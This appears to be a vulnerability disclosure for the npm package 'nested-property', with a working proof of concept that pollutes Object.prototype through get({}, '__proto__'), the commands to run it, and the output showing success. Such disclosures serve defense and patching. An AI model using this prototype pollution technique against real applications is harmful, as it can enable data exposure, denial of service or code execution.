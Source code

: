 # Description

`nested-property` is vulnerable to `Prototype Pollution`.

# Proof of Concept

1. Create the following PoC file:
```javascript
// poc.js
const { get } = require('nested-property')

console.log(`Before: ${{}.polluted}`)
get({}, '__proto__').polluted = true
console.log(`After: ${{}.polluted}`)
```
2. Execute the following commands in the terminal:
```bash
npm i nested-property # install vulnerable package
node poc.js # run the PoC
```
3. Check the output:
```
Before: undefined
After: true
```

# Impact

`Prototype Pollution` leads to Information Disclosure/DoS/RCE.

